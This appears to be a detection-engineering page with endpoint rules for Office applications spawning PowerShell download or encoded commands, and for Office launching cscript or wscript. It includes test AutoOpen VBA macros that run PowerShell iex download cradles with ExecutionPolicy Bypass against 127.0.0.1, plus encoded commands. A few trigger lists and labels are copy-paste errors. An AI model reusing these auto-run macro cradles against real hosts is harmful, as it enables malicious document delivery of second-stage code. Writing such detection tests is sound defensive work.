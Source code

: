 # T1059 - Command and String Interpreter

Malicious MS Office documents may attempt to launch PowerShell through embedded VBA code to execute PowerShell commands.  

## 1. MS Office Launching PowerShell DownloadString / DownloadFile

**Description:**  VBA-enabled MS Office files are regularly leveraged to by adversaries to use PowerShell to download malicious code to execute the second stage of the attack.  

**MITRE ATT&CK Technique:** T1059.001

```jsx
Rule {
	Initiator {
		Match PROCESS {
			Include OBJECT_NAME {-v "winword.exe"}
			Include OBJECT_NAME {-v "excel.exe"}
			Include OBJECT_NAME {-v "powerpoint.exe"}
		}
	}
	Target {
		Match PROCESS {
			Include -nt_access "CREATE"
			Include OBJECT_NAME {-v "powershell.exe"}
			Include PROCESS_CMD_LINE {-v "*DownloadString*"}
			Include PROCESS_CMD_LINE {-v "*DownloadFile*"}
			Include PROCESS_CMD_LINE {-v "*DownloadData*"}
			Include PROCESS_CMD_LINE {-v "*iwr*"}
		}
	}
}
```

**Trigger(s):**

1. MS Office application launched
2. MS Office application launches PowerShell process.
3. PowerShell attempts to download remote data.

## 2.  MS Office Launching Encoded PowerShell

**Description:**  VBA-enabled MS Office files may attempt to launch base64-encoded content by PowerShell to avoid AV detections and obscure intent.

**MITRE ATT&CK Technique:** T1059.001

```jsx
Rule {
	Initiator {
		Match PROCESS {
			Include OBJECT_NAME {-v "winword.exe"}
			Include OBJECT_NAME {-v "excel.exe"}
			Include OBJECT_NAME {-v "powerpoint.exe"}
		}
	}
	Target {
		Match PROCESS {
			Include -nt_access "CREATE"
			Include OBJECT_NAME {-v "powershell.exe"}
			Include PROCESS_CMD_LINE {-v "*-e*"}
		}
	}
}
```

**Trigger(s):**

1. MS Office application launched
2. MS Office application launches PowerShell process.
3. PowerShell attempts to run encoded commands.



#### **TEST Files - Covers #1 and #2:**

[T1059.001-MS Word.docm](T1059%20-%20Command%20and%20String%20Interpreter%200331fa36083e44558e51e2755796c033/T1059.001-MS_Word.docm)

[T1059.001-MS Excel.xlsm](T1059%20-%20Command%20and%20String%20Interpreter%200331fa36083e44558e51e2755796c033/T1059.001-MS_Excel.xlsm)

**Test VBA Code:**

```jsx
Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal Milliseconds As LongPtr)
 
Public Sub AutoOpen()

    Dim objWshell1 As Object
    Set objWshell1 = CreateObject("WScript.Shell")
    Dim psString As String
    
    '1 - VBA Launching PowerShell DownloadString
    psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (New-Object Net.WebClient).DownloadString('http://127.0.0.1/NOTHING');"
    MsgBox ("1 - VBA Launching PowerShell DownloadString" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)
    
    '2 - VBA Launching PowerShell DownloadFile
     psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (New-Object Net.WebClient).DownloadFile('http://127.0.0.1/NOTHING');"
    MsgBox ("2 - VBA Launching PowerShell DownloadFile" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)
   
   '3 - VBA Launching PowerShell DownloadData
     psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (New-Object Net.WebClient).DownloadData('http://127.0.0.1/NOTHING');"
    MsgBox ("3 - VBA Launching PowerShell DownloadData" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)
    
    '4 - VBA Launching PowerShell Invoke-WebRequest #1
     psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (iwr -uri http://127.0.0.1 -outfile c:\\windows\\temp\\test);"
    MsgBox ("3 - VBA Launching PowerShell Invoke-WebRequest #1" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
   
    Sleep (3000)
    '5 - VBA Launching PowerShell Invoke-WebRequest #2
   
    psString = "powershell.exe -ExecutionPolicy Bypass -nologo -Command iex (invoke-webrequest -uri http://127.0.0.1 -outfile c:\\windows\\temp\\test);"
    MsgBox ("3 - VBA Launching PowerShell Invoke-WebRequest #2" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (3000)

    '6 - VBA Launching PowerShell Encoded Command
    psString = "powershell.exe -EncodedCommand ZQBjAGgAbwAgACIASABpACAAVABoAGUAcgBlACEAIgA="
    MsgBox ("3 - VBA Launching PowerShell Encoded Command" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.001" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    Sleep (5000)

End Sub
```

## 3. MS Office Launching Other Scripts

**Description:**  VBA-enabled MS Office files may attempt to launch JavaScript and VBScript.

**MITRE ATT&CK Technique:** T1059.005, T1059.007

```jsx
Rule {
	Initiator {
		Match PROCESS {
			Include OBJECT_NAME {-v "winword.exe"}
			Include OBJECT_NAME {-v "excel.exe"}
			Include OBJECT_NAME {-v "powerpoint.exe"}
		}
	}
	Target {
		Match PROCESS {
			Include -nt_access "CREATE"
			Include OBJECT_NAME {-v "cscript.exe"}
			Include OBJECT_NAME {-v "wscript.exe"}
		}
	}
}
```

**Trigger(s):**

1. MS Office application launched
2. MS Office application launches PowerShell process.
3. PowerShell attempts to run encoded commands.

**Test VBA Code:**

```jsx
Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal Milliseconds As LongPtr)
 
Public Sub AutoOpen()

    Dim objWshell1 As Object
    Set objWshell1 = CreateObject("WScript.Shell")
    Dim psString As String
    
    '1 - VBA Launching PowerShell EncodedCommand
    psString = "powershell.exe -ExecutionPolicy Bypass -NoExit -EncodedCommand JABTAGUAcgB2AGUAcgAgAD0AIABSAGUAYQBkAC0ASABvAHMAdAAgAC0AUAByAG8AbQBwAHQAIAAnAEUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkACAAcgB1AG4ALgAgACAAUAByAGUAcwBzACAARQBuAHQAZQByACcA"
    MsgBox ("1 - VBA Launching PowerShell EncodedCommand" + Chr(13) & Chr(10) + "MITRE ATT&CK: T1059.007/009" + Chr(13) & Chr(10) + Chr(13) & Chr(10) + "Command: " + psString + Chr(13) & Chr(10))
    objWshell1.Exec (psString)
    MsgBox ("Complete.")
End Sub

```

#### TEST Files - Covers #3**


[T1059.007-T1059.009-MS_Word.docm](T1059%20-%20Command%20and%20String%20Interpreter%200331fa36083e44558e51e2755796c033/T1059.007-T1059.009-MS_Word.docm)

[T1059.007-T1059.009-MS_Excel.xlsm](T1059%20-%20Command%20and%20String%20Interpreter%200331fa36083e44558e51e2755796c033/T1059.007-T1059.009-MS_Excel.xlsm)
